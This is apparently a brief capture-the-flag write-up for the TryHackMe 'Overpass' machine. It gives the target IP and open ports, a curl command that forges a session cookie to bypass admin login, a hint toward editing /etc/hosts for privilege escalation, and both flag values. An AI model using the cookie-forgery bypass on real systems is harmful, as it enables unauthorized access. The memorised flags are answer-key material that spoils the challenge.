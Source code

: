 # Overpass infor
$IP = 10.10.69.139

# Port open
```
22
80
```
 /downloads/src/buildscript.sh

----------------------------------

# 1. Hack the machine and get the flag in user.txt

```
curl http://10.10.69.139/admin/ --cookie SessionToken=anything
james@james13
```


```
thm{65c1aaf000506e56996822c6281e6bf7}
```

# 2. Escalate your privileges and get the flag in root.txt


```
/etc/hosts
```

```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```